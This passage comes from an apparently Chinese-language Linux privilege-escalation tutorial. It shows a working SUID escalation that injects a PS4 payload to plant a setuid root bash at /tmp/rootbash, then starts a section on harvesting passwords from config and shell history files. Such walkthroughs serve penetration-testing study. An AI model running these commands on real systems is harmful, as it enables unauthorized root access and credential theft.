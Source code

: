 ```php
$ strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service
```

#### 4.可选地，们也可以用Itrace验证：

```php
$ ltrace /usr/local/bin/suid-env 2>&1 | grep service
```

这和上一步操作都是一样的 下面开始

#### 5.运行支持bash调试的SUID文件，并分配给我们的有效载荷的PS4变量：

```php
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2
```

![image-20210701173845361](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-72ab6042efd867c3589222ef44c2e0510faf2337.png)

#### 6.使用 -p 命令行选项运行 /tmp/rootbash文件以获取root：

```php
/tmp/rootbash -p
```

![image-20210701173901466](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c3399be23d6f5a688ed79f87636e713cdf1a8a29.png)

0x10 密码 &amp;钥匙
===============

前言
--

### 密码

虽然这看起来可能很漫长，但弱密码存储和密码重复使用可能是升级权限的简单方法。

虽然root用户的帐户密码被隐藏起来，并安全地存储在`/etc/shadow`中

但其他密码（如用于服务的密码）可能会 以普通文本存储在配置文件中。

如果根用户将密码重新用于服务，则可能会找到该密码并用于切换到根用户。

### 历史文件

历史文件记录用户在使用某些程序时发出的命令。  
如果用户将密码键入命令的一部分，此密码可能会存储在历史记录文件中。  
尝试使用发现ed 密码切换到根

实操
--

### 1.查看用户/home目录中隐藏文件的内容，文件名以"历史记录"结尾：

```php
cat ~/.*history | less
```
